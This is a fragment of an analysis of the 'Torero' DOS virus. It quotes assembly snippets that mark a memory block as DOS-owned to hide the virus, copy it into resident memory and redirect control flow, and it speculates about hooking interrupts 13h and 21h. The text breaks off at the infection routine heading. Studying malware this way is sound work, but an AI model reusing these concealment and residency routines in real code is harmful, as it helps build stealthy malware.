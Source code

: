 -   The virus marks a block of memory as a 'Z' block, which is a common technique used by viruses to hide from memory management utilities.

```
mov     word ptr ds:[di+3],((torero_size/10h)+1)
                mov     word ptr ds:[di+8],4f44h    ; Mark block as owned by DOS
                mov     word ptr ds:[di+0ah],0053h
                inc     ax
```

-   Further manipulation of the Memory Control Block to conceal the virus's presence in memory.

#### Copying Virus to Memory

```
cld
                push    cs
                pop     ds
                mov     es,ax
                mov     cx,torero_size              ; Set CX to the size of the virus
                mov     si,bp
                rep     movsb                       ; Copy the virus to the allocated memory
```

-   This part copies the virus code to the newly allocated memory space. The `rep movsb` instruction is used for the actual copying, moving `torero_size` bytes of data.

#### Setting New Interrupt Vectors

```
push    es
                push    offset copy_vector          ; Set up return address to 'copy_vector'
                retf                                ; Far return to 'copy_vector'
```

-   The virus sets up a far return to a label `copy_vector`. This is part of the virus's control flow redirection.

### Intercepting Interrupt 13h

The code likely contains similar steps for setting up an interception for Interrupt 13h, which deals with low-level disk operations. This allows the virus to monitor, and potentially interfere with, disk reads and writes, which is a common way for it to spread itself to other files or disks.

### Summary

This section of the virus is about establishing control over critical system functions by intercepting interrupts. By doing so, the virus can insert its code into regular system operations, thereby ensuring it remains active and can spread. The technical nature of these operations shows a deep understanding of DOS internals and assembly language programming.

## Infection routine

This routine is called when the virus detects a file opening operation via DOS interrupt 21h.

### Infection Routine Detailed Analysis
